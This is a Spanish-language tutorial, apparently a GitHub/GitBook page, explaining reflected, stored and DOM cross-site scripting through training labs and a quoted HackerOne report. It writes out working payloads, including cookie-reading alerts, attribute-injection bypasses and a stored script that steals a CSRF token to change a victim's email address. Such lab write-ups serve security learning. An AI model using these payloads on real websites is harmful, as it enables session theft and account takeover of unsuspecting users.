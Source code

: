 ![image](https://user-images.githubusercontent.com/88755387/136074041-7872112e-6a49-496d-a959-987fdfc14e1e.png)

- [__¿Qué es?__](#¿Qué-es?)
- [__Impacto__](#Impacto)
- [__Tipos de XSS__](#Tipos-de-XSS)
    - [__Reflected XSS__](#Reflected-XSS)
        - [__Primer ejemplo__](#Primer-ejemplo)
        - [__Segundo ejemplo__](#Segundo-ejemplo)
    - [__Stored XSS__](#Stored-XSS)
    - [__DOM XSS__](#DOM-XSS)

# __¿Qué es?__

El ataque XSS (Cross-site scripting) permite a un atacante ejecutar código arbitrario client-side en el navegador de una víctima. Se puede utilizar para phishing, datos de exfilación, adquisición de cuentas y más.

# __Impacto__

Leer/modificar/eliminar contenido de cualquier página, robar cookies o sesiones de un usuario y obtener acceso a su cuenta, ofrecer contenido malicioso como phishing.

# __Tipos de XSS__

- Reflected XSS 

- Stored XSS: almacena el payload en la base de datos.

- DOM XSS

## __Reflected XSS__

En este caso voy a estar practicando en un laboratorio creado por NahamSec el cual podeis descargarlo en el siguiente enlace. 

[Lab de Nahamsec](https://github.com/nahamsec/nahamsec.training)

Lo primero con lo que nos encontramos es con un formulario que nos está pidiendo nuestro nombre. Si lanzamos el siguiente comando vamos a estar realizando un secuestro de cookie.


![](https://cdn.discordapp.com/attachments/866283809338818580/874823906328981524/si.png)

En este caso concreto no existe ningún tipo de cookie en la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJ-Ug2n3znolYFg9G%2Fimage.png?alt=media&amp;token=32f699c9-ba14-4f1b-989c-0a0368b67da1)
![]()

Podemos observar como primero interpreta el código malicioso y luego nos devuelve el output normal.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeJGewZ_3gsBMvxsrt%2Fimage.png?alt=media&amp;token=01bd6c53-4700-4331-83c3-252ec6268e8d)

```xml
test1"><script>alert()</script>
</title><u> h4ns </u> <script>alert(1)</script>
```
Si tenemos un parámetro vulnerable como es en este caso `name` podríamos aprovecharnos y poner nuestro nombre cerrándolo con una `'` para luego decirle a la aplicación que ejecute todo lo que viene a continuación y descarte todo lo que está comentado a partir de las `//` .

```bash
http://xss4.naham.sec/?name=h4ns%27;+alert(1);//aaaa
# ' = %27 (URL Encode)
```
Aquí veriamos el ejemplo:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mge7kJbQOyG68ts3cY5%2F-MgeLFzinC6HPLxgP0RB%2Fimage.png?alt=media&amp;token=57d97055-638b-40aa-bb88-e2ba6141fcfe)

### __Primer ejemplo__

Una parte de los laboratorios de Nahamsec me pareció super interesante, vamos a echarle un vistazo:

Estamos en la pagina principal de la tienda https://nahamstore.thm y vamos a enviar un directorio invalido como por ejemplo https://nahamstore.thm/h4ns a ver que nos dice la página.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-MglsgGiYwktcwhyyPmS%2Fimage.png?alt=media&amp;token=3d3c9a66-b9d9-422a-bbf8-b764559e749d)

Ajá lo URL encodea. Vamos a probar a añadirle un parámetro aleatorio como por ejemplo file a ver cual es su respuesta.

```
http://nahamstore.thm/h4ns?file=xss
```

Después de lanzarlo nos damos cuenta que cualquier cosa que pongamos en la barra de búsqueda, si no es encontrado, es reflejado en el cuerpo de la página.

Vamos a añadirle a nuestra petición el tag `<h1>` a ver que nos devuelve la página:

```
http://nahamstore.thm/h4ns?file=<h1>xss
```

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MglrsJ1XV3chCKmZMSC%2F-Mgm0HxBXKQo_KevndPO%2Fimage.png?alt=media&amp;token=c99ccc61-b55c-4295-88b5-b0a471079138)

Perfecto, ya tenemos vía libre para robar unas cookies por ejemplo.

```
http://nahamstore.thm/h4ns?file=<img src=x onerror=alert(document.cookie)>
```
Lo que estamos haciendo en este código de javascript es pedir que nos cargue una imagen llamada `x` pero como esta no existe pues nos va a ejecutar el `alert()`. Esto se produce gracias al parámetro `onerror`.

### __Segundo ejemplo__

En este caso nos vamos a dirigir a uno de los productos que están disponibles para comprar en la tienda, en concreto el de las pegatinas. 

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmClfVhwoT8u8ZRKoE%2F-MgmFI8Jkzv_WorlBicz%2Fimage.png?alt=media&amp;token=5be4d9ac-9c49-42f9-a5a0-f4fea001ade6)

Vamos a abrir el Burp para ver como viaja esta petición:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmFTP6qsMFnnr07dsY%2F-MgmH4eZcU800oWuPwYc%2Fimage.png?alt=media&amp;token=e7a814df-15be-427d-b671-9caeb2f0a1f9)

En seguida nos damos cuenta que hay un parámetro llamado `discount` pero, como podriamos hacer llegar un xss ahí?

Mandamos la petición al Repeater y le damos a `Follow redirect`, lo que vamos a hacer a continuación es lo que muchas páginas webs hacen y es meter un parámetro en la URL de la petición GET. En este caso vamos a introducir `discount`.

Si le mandamos el payload clásico para ver si pasa algo...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXgeGhsDYIN0x--1v%2Fimage.png?alt=media&amp;token=d8c356fd-f959-498f-9f2c-1b12c6486765)

y vemos el resultado en la respuesta del servidor...

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgmOGmwv-uSTpxS5kIf%2F-MgmXuFvJduTgx_rngeE%2Fimage.png?alt=media&amp;token=758eac22-ff65-4e4f-94e9-05f37a61a176)

nos vamos a dar cuenta que nos han eliminado los caracteres `<>`.

Por lo tanto vamos a eliminarlos de nuestro payload y a crear uno nuevo el cual al pasar el ratón por encima del input nos salte una alerta.

```
http://nahamstore.thm/product?id=2&added=1&discount=11" onmouseover=alert(1);"
```

Podemos verificar que esto se va a ejecutar correctamente si miramos la respuesta:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-Mgmbv-yMZVbZwCO2LtH%2F-MgmcISZI4kEGHcCJNzr%2Fimage.png?alt=media&amp;token=31fe1f44-c082-43d5-925d-c019570c9a19)

Al final del payload podríamos poner `"` para cerrar comillas o `//` para hacer que esta última se convirtiese en un comentario.

## __Stored XSS__

Estos casos son un poco más complicados debido a su complejidad. Podríamos aprovecharnos de esta vulnerabilidad para realizar un CSRF, vamos a ver un ejemplo. 

Esta vez voy a estar operando en la plataforma de PortSwigger.

[XSS to CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Si miramos el código de la página vamos a observar que tenemos que hacer una solicitud POST a la dirección `/my-account/change-email` . También nos damos cuenta de que existe un anti-CSRF token en un input oculto llamado `token`.

Ahora ya podemos montar nuestro payload el cual deberá cargar la página de la cuenta de usuario, extraer el token CSRF y luego usar el token para cambiar la dirección de correo electrónico de la víctima.

Lo escribimos en algún blog que tenga los comentarios activados y...

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=h4ns@test.com')
};
</script>
```

 Esto hará que cualquier persona que vea el comentario emita una solicitud POST para cambiar su dirección de correo electrónico a h4ns@test.com.

 ## __DOM XSS__

 DOM XSS ocurre cuando javascript refleja datos de un recurso controlado por un atacante (por ejemplo, dentro de la URL) y los pasa a una función más adelante.

Vamos a observar algún ejemplo:

[Reporte de hackerone](https://hackerone.com/reports/324303)

Este tipo de XSS es mucho mas complicado que los anteriores y es necesario tener conocimientos a cerca de javascript y HTML.

La persona que reportó esta vulnerabilidad nos cuenta como a partir del siguiente código interpeta que está buscando una localización para cargar una página en particular dentro de esa web.

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeYUWdJwE1INxoBHj1%2Fimage.png?alt=media&amp;token=e1fce6b9-904d-422e-860a-5a16a9f464ae)

Un atacante puede poner su payload en el enlace y se incrustará en el output de la página:

```
https://mycrypto.com/#send-transaction<div/class="header__wrap"><a/href=javascript:alert(0)><h1>pwn3d</h1></a><img/src=//unskid.me/dist/jesus.gif></div>
```

Aquí tendríamos el resultado:

![](https://gblobscdn.gitbook.com/assets%2F-MbL5rnDUc5SOFMrCAb3%2F-MgeWoqfWUGTPcqYhp8V%2F-MgeZ5ESHG-WrSmxRdIV%2Fimage.png?alt=media&amp;token=6d18cbbb-4311-424a-b803-7c860b7fd82a)

En concreto sería este tipo de evento el que se está vulnerando:

[Location href Property](https://www.w3schools.com/jsref/prop_loc_href.asp)
